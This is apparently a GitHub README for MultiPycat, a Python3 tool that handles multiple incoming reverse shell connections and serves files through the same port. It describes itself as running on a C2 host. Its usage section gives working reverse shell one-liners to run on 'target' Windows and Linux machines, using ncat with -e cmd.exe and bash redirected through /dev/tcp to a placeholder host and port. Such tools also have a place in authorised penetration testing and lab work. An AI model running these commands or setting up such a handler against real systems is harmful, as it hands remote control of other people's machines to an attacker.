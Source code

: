 # MultiPycat
Multiple reverse shell connections handler written in Python3.

<img src="https://github.com/tomelic/MultiPycat/blob/main/example.png" width="500" height="300">

# Features
* Simultaneously accept multiple reverse shell connections from different devices
* Interacting with connections and going back and forth to the main interface
* Serve files over HTTP through the same port listening for reverse shell connections
* Serve specific files according to user-inputted whitelist
* Simplistically written in Python3
* No external dependencies or libraries

# Usage
Install `python3` or use the executable in the releases section

Run on C2 (Tested on Windows and Linux)
```
python3 MultiPycat.py <LISTENING PORT>
MultiPycat> help
```

Target machine examples for testing
```
# windows
ncat <HOST> <PORT> -e cmd.exe

# linux/ macOS
bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1 &
```
